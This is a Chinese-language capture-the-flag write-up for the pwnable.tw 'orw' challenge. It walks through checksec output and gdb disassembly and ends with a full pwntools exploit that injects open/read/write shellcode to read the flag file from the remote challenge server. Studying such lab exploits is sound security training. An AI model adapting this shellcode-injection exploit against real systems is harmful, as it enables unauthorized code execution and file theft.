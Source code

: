 > 参考资料：
>
> - <https://www.anquanke.com/post/id/150359>

# ORW

首先检查安全保护等级：

```bash
$ checksec orw
[*] '/media/data/program/ctf/pwnable/orw/orw'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

可以看到这个程序开启了以下保护机制：

- `Canary` 开启，部分 `RELOAD`，还有 `RWX` 读写执行段。

在 `gdb` 里面可以查看 `main` 函数的汇编代码：

```assembly
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048330  _init
0x08048370  read@plt
0x08048380  printf@plt
0x08048390  __stack_chk_fail@plt
0x080483a0  __libc_start_main@plt
0x080483b0  prctl@plt
0x080483c0  __gmon_start__@plt
0x080483d0  _start
0x08048400  __x86.get_pc_thunk.bx
0x08048410  deregister_tm_clones
0x08048440  register_tm_clones
0x08048480  __do_global_dtors_aux
0x080484a0  frame_dummy
0x080484cb  orw_seccomp
0x08048548  main
0x080485a0  __libc_csu_init
0x08048600  __libc_csu_fini
0x08048604  _fini

(gdb) disas main
Dump of assembler code for function main:
   0x08048548 <+0>:     lea    0x4(%esp),%ecx
   0x0804854c <+4>:     and    $0xfffffff0,%esp
   0x0804854f <+7>:     pushl  -0x4(%ecx)
   0x08048552 <+10>:    push   %ebp
   0x08048553 <+11>:    mov    %esp,%ebp
   0x08048555 <+13>:    push   %ecx
   0x08048556 <+14>:    sub    $0x4,%esp
   0x08048559 <+17>:    call   0x80484cb <orw_seccomp>
   0x0804855e <+22>:    sub    $0xc,%esp
   0x08048561 <+25>:    push   $0x80486a0
   0x08048566 <+30>:    call   0x8048380 <printf@plt>
   0x0804856b <+35>:    add    $0x10,%esp
   0x0804856e <+38>:    sub    $0x4,%esp
   0x08048571 <+41>:    push   $0xc8
   0x08048576 <+46>:    push   $0x804a060
   0x0804857b <+51>:    push   $0x0
   0x0804857d <+53>:    call   0x8048370 <read@plt>
   0x08048582 <+58>:    add    $0x10,%esp
   0x08048585 <+61>:    mov    $0x804a060,%eax
   0x0804858a <+66>:    call   *%eax
   0x0804858c <+68>:    mov    $0x0,%eax
   0x08048591 <+73>:    mov    -0x4(%ebp),%ecx
   0x08048594 <+76>:    leave  
   0x08048595 <+77>:    lea    -0x4(%ecx),%esp
   0x08048598 <+80>:    ret    
End of assembler dump.
```

可见这是一个有着完整编译结构的文件，我们主要看 `main` 函数中的主要功能：

1. 在栈顶是 `%ecx = 0x4(%esp)` 的情况下，在 `*main+17` 行调用了函数 `orw_seccomp`；

2. 传入字符串 `0x80486a0`，调用 `printf@plt` 函数。可以在 `gdb` 中查看字符串的内容：

   ```gdb
   (gdb) x /s 0x80486a0
   0x80486a0:      "Give my your shellcode:"
   ```

3. 在 `*main+41 ~ *main+51` 行，函数通过三个参数调用了 `read@plt` 函数：

   ```c
   read(0x0, 0x804a060, 0xc8)
   ```

4. 在 `*main+61 ~ *main+66` 行，函数直接将传入的字符串作为一个函数进行了调用。

因此程序的逻辑就是：传入一个 `shellcode` 后这个 `shellcode` 会被执行。我们尝试直接按照题目的提示进行编写（`flag` 在文件 `/home/orw/flag` 中，并且只允许使用 `open`,`read`,`write` 三个函数）：

```python
#!/usr/bin/env python
#coding=utf-8
from pwn import *

class Challenge:
    def __init__(self, local=True):
        self.local = local
        if local:
            self.p = process(['./orw'])
        else:
            self.p = remote("chall.pwnable.tw", 10001)

    def gdb(self):
        assert self.local
        context.terminal = ['tmux', 'splitw', '-h']
        gdb.attach(proc.pidof(self.p)[0])

    def inject_shellcode(self):
        self.p.recvuntil(":")
        shellcode = asm("\n".join([
            shellcraft.i386.pushstr("/home/orw/flag"),
            shellcraft.i386.linux.syscall("SYS_open", 'esp'),
            shellcraft.i386.linux.syscall("SYS_read", 'eax', 'esp', 0x30),
            shellcraft.i386.linux.syscall("SYS_write", 1, 'esp', 0x30)
        ]))
        assert len(shellcode) < 0xc8
        self.p.send(shellcode)

    def pwn(self):
        self.inject_shellcode()
        self.p.interactive()
        self.p.wait_for_close()


if __name__ == "__main__":
    c = Challenge(False)
    c.pwn()
```

也可以跟 `start` 一样，我们可以直接使用 80 中断调用这三个函数。

